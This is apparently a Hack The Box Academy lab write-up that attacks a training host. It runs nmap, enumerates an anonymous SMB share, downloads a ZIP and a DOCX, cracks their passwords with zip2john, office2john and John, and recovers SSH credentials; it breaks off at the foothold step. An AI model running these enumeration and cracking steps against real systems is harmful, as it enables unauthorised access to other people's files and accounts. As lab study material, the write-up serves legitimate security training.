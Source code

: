# Password Attacks Lab - Medium  

[Password Attacks Lab - Medium](https://academy.hackthebox.com/module/147/section/1335)  

>Host is a workstation used by an employee for their day-to-day work. 
>These types of hosts are often used to exchange files with other employees and are typically administered by administrators over the network.
>During a meeting with the client, we were informed that many internal users use this host as a jump host. 
>The focus is on securing and protecting files containing sensitive information.  

## Enumeration  

>NMAP Scans and results:  

```
sudo nmap -p 22,139,445 10.129.202.221 -sCV -A -O

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: SKILLS-MEDIUM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 1s
| smb2-time: 
|   date: 2023-07-16T17:43:55
|_  start_date: N/A
```  

### SMB  

>Enumerate if any shares allow anonymous or null unauthenticated read of data and files.

```
smbmap -u '' -H 10.129.202.221
```  

>Discovering a share `SHAREDRIVE` that allow read access anonymously.  

```
smbclient -N \\\\10.129.202.221\\SHAREDRIVE

get Docs.zip
```

>Extract the ZIP password hash, and then Crack password protected zip file using `John`.  

```
zip2john Docs.zip >docs.hash

john docs.hash --wordlist=resources/demo-pass.lst
```  

>Cracking the Office Document DOCX file password with `office2john`. [Cracking Documents](https://academy.hackthebox.com/module/147/section/1322)  

```
office2john Documentation.docx >office.hash

john office.hash --show
```

>Office DOCX file password cracked as `987654321`, and discover the Microsoft Word Document content as below.  

![office2john-Password-Attacks-Lab-Medium](/images/office2john-Password-Attacks-Lab-Medium.png)  

>Discovered password information from word document, as below:  

```

Root password is jason:C4mNKjAtL2dydsYa6
>10.129.200.21</inlane.configure.localIp>

http://localhost:8080/cms 
```  

## Foothold

>Gain access to target as `jason` via ssh with the password `C4mNKjAtL2dydsYa6`.  


